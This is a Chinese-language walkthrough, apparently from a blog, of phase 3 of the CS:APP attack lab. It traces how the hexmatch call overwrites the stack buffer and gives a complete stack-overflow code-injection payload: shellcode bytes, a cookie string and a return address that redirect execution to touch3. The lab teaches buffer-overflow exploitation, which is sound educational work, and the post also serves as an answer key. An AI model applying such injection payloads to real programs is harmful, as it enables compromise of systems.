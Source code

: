 复制

我们可以看到，和第二阶段的差别在于，这里会调用另一个函数来进行检验，而且传入一个字符串的话，是传入一个地址，并且字符串需要以 0 结尾（查找 ascii 码表来确定），还有一个要注意的地方是，调用 `hexmatch` 和 `strncmp` 时会把数据存入栈中，也就是会覆盖一部分 `getbuf` 的缓冲区，所以要看看到底需要把传入的字符串放到哪里。

这题稍微有些复杂，我们一步一步来，先把我的 cookie 转换成字符串的表达形式，也就是

```
0x45374fee -> 34 35 33 37 34 66 65 65
```

复制

因为知道在调用 `hexmatch` 的时候会覆盖缓冲区，所以需要找到一个位置来放这八个字符。光看代码比较难懂，不妨直接上手实验一下，我们需要知道的是到底覆盖了多少，所以从 `touch3` 入手:

```
000000000040196e <touch3>:
  40196e:	53                   push   %rbx
  40196f:	48 89 fb             mov    %rdi,%rbx
  401972:	c7 05 60 3b 20 00 03 movl   $0x3,0x203b60(%rip)        # 6054dc <vlevel>
  401979:	00 00 00 
  40197c:	48 89 fe             mov    %rdi,%rsi
  40197f:	8b 3d 5f 3b 20 00    mov    0x203b5f(%rip),%edi        # 6054e4 <cookie>
  401985:	e8 36 ff ff ff       callq  4018c0 <hexmatch>
  40198a:	85 c0                test   %eax,%eax
```

复制

可以看到在 `0x401985` 的时候调用了 `hexmatch`，所以我们只要在前一句和后一句各设置一个断点，看看缓冲区有没有什么变化（这里稍微改了一下第二阶段的字节码用作测试）

![调用 hexmatch 前](https://wdxtub.com/images/before.jpg)

可以看到在调用 `hexmatch` 之前我们的缓冲区一切正常，主要留意 `0x5560f2f8` 这里，保存着我们的 cookie，其他部分其实已经执行了，所以反而无所谓。

![调用 hexmatch 后](https://wdxtub.com/images/after.jpg)

这就出问题了，我们之前存放在 `0x5560f2f8` 的传入参数给弄没了，而且可以看到从缓冲区开始 `0x5560f2d8` 到缓冲区结束 `0x5560f300` 都不安全。所以我们得给字符串找个新家，不会被覆盖的新家。

仔细观察 `0x5560f308` 之后的内容，在 `0x00401f94` 之后有几个空位置，刚好放得下我们的字符串。为了保证格式的一致，我们需要溢出到 `0x5560f318` 的位置（当然前一个也可以，不过我选择的位置换行了，比较容易看）

于是我们需要输入的字符串是

```
48 c7 c7 18 f3 60 55 68 6e 19 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
34 35 33 37 34 66 65 65 d8 f2 60 55 00 00 00 00 
09 00 00 00 00 00 00 00 94 1f 40 00 00 00 00 00 
34 35 33 37 34 66 65 65
```

复制

至于这个怎么来的，其实是和第二阶段类似的过程，对应的汇编指令为：

```
mov $0x5560f318,%rdi # mov the cookie string address to parameter
push $0x40196e #push touch3 address
ret
```
